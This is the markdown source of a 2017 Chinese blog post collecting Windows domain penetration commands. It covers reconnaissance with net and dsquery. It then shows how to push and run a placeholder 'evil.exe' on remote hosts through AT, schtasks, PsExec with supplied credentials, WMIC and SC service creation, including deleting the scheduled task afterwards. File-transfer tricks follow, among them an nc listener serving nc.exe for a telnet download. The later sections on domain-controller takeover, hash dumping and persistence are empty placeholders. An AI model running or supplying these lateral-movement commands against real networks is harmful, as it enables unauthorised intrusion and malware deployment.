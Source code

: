 ```yaml
---
layout:     post
title:      "Windows 内网渗透总结"
subtitle:   "内网入门基本姿势"
date:       2017-06-09 21:19 +0800
author:     "gsfish"
header-img: "img/post-bg-hacker.jpg"
tags:
    - 渗透
    - 内网
---
```



# 整体思路（持续更新）

![01.png](/img/domain-pentest-note/01.png)

# 0x00 环境判断（DOMAIN / WORKGROUP）

```
net time /domain
net config workstation
systeminfo
ipconfig /all
```

# 0x01 信息收集

```
net view /domain [:XXX]
net user /domain
net group /domain
net accounts /domain
nslookup
dsquery
```

# 0x02 域内

## 域内运行命令

1. 计划任务

    1) AT
        
        copy evil.exe \\[HOST]\c$\windows\temp\evil.exe  # 上传恶意文件
        at \\[HOST] 15:00 c:\windows\temp\evil.exe

    2) SCHTASKS

        schtasks /create /tn boom /tr c:\windows\temp\evil.exe /sc once /st 00:00 /s [HOST] /ru system
        schtasks /run /tn boom /s [HOST]
        schtasks /delete /tn boom /f /s [HOST]  # 清除 boom

2. PsExec

    1) 建立 IPC$ 连接后

        psexec \\[HOST] -c evil.exe

    2) 在 PsExec 的参数中指定账号密码

        psexec.exe \\[HOST] –accepteula -u [USERNAME] -p [PASSWORD] -c evil.exe

3. WMIC 远程运行命令

        copy evil.exe \\[HOST]\c$\windows\temp\evil.exe
        wmic /node:[HOST] /user:administrator /p [PASSWORD] process call create c:\windows\temp\evil.exe

4. SC 创建服务执行

    1) 系统权限(其中test为服务名)

        sc \\[HOST] create boom binpath= c:\evil.exe
        sc \\[HOST] start boom
        sc \\[HOST] delete boom

    2) 指定用户权限启动

        sc \\[HOST] create boom binpath= c:\evil.exe obj= [DOMAIN]\administrator passwrod= [PASSWORD]
        sc \\[HOST] start boom

## 域内的文件操作

1. 利用 IPC$

        net use \\[HOST]\IPC$
        copy evil.exe \\[HOST]\C$\

2. 利用 Telnet

    服务端：

        nc -lvp 23 < nc.exe

    下载端：

        telnet [HOST] -f c:\nc.exe

3. 利用文件共享

        net use x: \\[HOST]\[SHARE] [PASSWORD] /user:[DOMAIN]\[USERNAME]

# 0x03 拿下域控

// TODO

# 0x04 Hash dump

// TODO

# 0x05 权限维持

// TODO


# 参考资料

* [域渗透基础简单信息收集（基础篇）](https://xianzhi.aliyun.com/forum/read/805.html)
* [windows内网渗透杂谈](https://bl4ck.in/penetration/2017/03/20/windows内网渗透杂谈.html)
